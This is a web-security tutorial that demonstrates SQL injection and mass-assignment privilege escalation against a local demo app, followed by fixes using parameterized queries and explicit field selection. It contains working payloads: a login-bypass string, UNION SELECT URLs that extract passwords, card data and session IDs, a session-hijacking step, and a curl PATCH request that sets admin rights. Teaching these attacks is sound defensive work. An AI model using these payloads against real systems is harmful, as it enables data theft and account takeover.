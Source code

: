 # Injection Attacks

In this example, we're going to look at two different types of attacks:

- SQL Injection
- Privilege Escalation

## SQL Injection

SQL Injection is a (web) security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve, and it can also enable an attacker to alter data in the database.

### How the Attack Works

1. User inputs data into an application.
2. Application dynamically constructs an SQL query using that input.
3. Malicious input alters the SQL query in an unintended way.

#### Bypassing Login

For example, if we log in using the password `' OR 1=1--`, our malicious password will create the following SQL query:

```sql
SELECT * FROM users WHERE email = 'example@email.com' AND password = '' OR 1=1--'
```

In this case `1` does, in fact, equal `1`, which means that query was successful and the user was successfully returned. For this _particular_ vulnerability, this _particularly_ bad because from this point forward, we've set a session token that will allow us to move around the site as that user.

#### Getting More Than You Asked For

Let's take a look at `/api/users`.

It's kind of annoying (depending on your perspective, I suppose) that you can only get an equal number of columns as the original query. But, if we're clever, we can get around that. Consider this lovely URL.

```
/api/users?search=%27%20UNION%20SELECT%20id%20||%20%27%20-%20%27%20||%20password%20||%20%27%20-%20%27%20||%20email%20FROM%20users%20--
```

For if we take out all of the encoding characters, it looks something like this:

```
' UNION SELECT id || ' - ' || password || ' - ' || email FROM users --
```

An attacker can run arbitrary SQL. The constructed SQL query becomes:

```sql
SELECT name FROM users WHERE name LIKE '' UNION SELECT id || ' - ' || password || ' - ' || email FROM users --%'
```

This query now returns some very sensitive data from the users table. We'll talk a little bit more about storing passwords in plain text later on, but regardless—this wouldn't be ideal even if the passwords were encrypted.

We can target the `products` table as well, which has a larger number of columns. We can use `NULL` values to pad the number of columns needed.

```
/api/products?search=' OR 1=1 UNION SELECT sessionId, userId, NULL, NULL, NULL, NULL FROM sessions --
```

Alternatively, we can use a similar approach to get our hands on some sensitive information.

```
/api/products?search=' OR 1=1 UNION SELECT creditCard, cvv, expirationDate, NULL, NULL, NULL FROM users --
```

You get the idea. There are probably plenty of other ways that we could get our hands on the data using the same techniques. Let's look at other flavors of this attack before we go about fixing the issue.

#### Stealing Sessions

It's one thing to be able to steal information about your users, but it's far worse if you can steal the important information needed to _become_ your users.

```
/api/users?search=' UNION SELECT sessionId FROM sessions --
```

This will give us all of the session IDs. We'll see something like this:

```json
{
  "users": [
    { "name": "6d130686184ea5d67ed0e58fb9409b34" },
    { "name": "d771c126c65e0ab66a2979b0086a3d70" }
    //…
  ]
}
```

Now, we _could_ adjust our cookie to any one of these session IDs and impersonate a user.

### Dropping Tables Like They're Hot

The `sqlite3` library is pretty good about not letting us execute writes or other non-idempotent actions in the `db.all` and `db.get` methods and writing my own SQLite driver that didn't have these protections didn't feel like the best use of my time. But, that doesn't mean we're totally safe.

## Steps to Fix and Secure the Application

To mitigate SQL Injection, always use parameterized queries (also known as prepared statements).

### Step-by-Step Guide for Remediation

Replace dynamic query construction with parameterized queries.

```javascript
app.get('/users', async (req, res) => {
  const name = req.query.name;

  try {
    // Using parameterized query to prevent SQL Injection
    const users = await db.all(`SELECT * FROM users WHERE name = ?`, [name]);
    res.json(users);
  } catch (err) {
    res.status(500).json({ error: err.message });
  }
});
```

In this query, `?` acts as a placeholder for the `name` parameter. The database driver safely handles its insertion into the SQL query.

#### Securely Handle User Input

We can also use prepared statements in SQL to futher abstract away the query itself.

```javascript
const usersQuery = await db.prepare(`SELECT * FROM users WHERE name = ?`);
const users = await usersQuery.all(name);
```

This ensures the input data is treated as a parameter, not a part of the SQL string.

## Privilege Escalation

This example uses a SQLite database and I'm too lazy to whip up a NoSQL database—so, we're going to fake it for a moment.

You've probably done something like this in JavaScript:

```js
const original = { a: 1, b: 2 };
const updated = { ...original };
```

Now, imagine that it something a little more nefarious.

```js
const user = {
  id: 1,
  name: 'Bobby Tables',
};

const updated = {
  ...user,
  admin: true,
};
```

In some cases—most commonly with `PATCH` operations, you can slide in some additional data either using the form field or by sending a maliciously crafted HTTP request with additional data.

We can add an additional input to our form or even just change one of the existing ones.

```html
<input type="hidden" name="admin" value="true" />
```

This will now be included in the form payload. Alternatively, we can send a `curl` request.

```sh
curl 'http://localhost:4007/profile' \
  -X 'PATCH' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: session=987292f04aaca60af0c3c56b93326da9' \
  -H 'Origin: http://localhost:4007' \
  -H 'Referer: http://localhost:4007/profile' \
  --data-raw '{"admin":true}'
```

### Solving for the Problem

This one is pretty simple: be specific about what you wan to update:

```ts
const { name, email, password /* etc */ } = req.body;
const fields = toParamsAndValues({ name, email, password });
```

## Further Reading

- [Mozilla Developer Network: SQL Injection](https://developer.mozilla.org/en-US/docs/Glossary/SQL_Injection)
- [PortSwigger: SQL injection](https://portswigger.net/web-security/sql-injection)
- [OWASP: SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
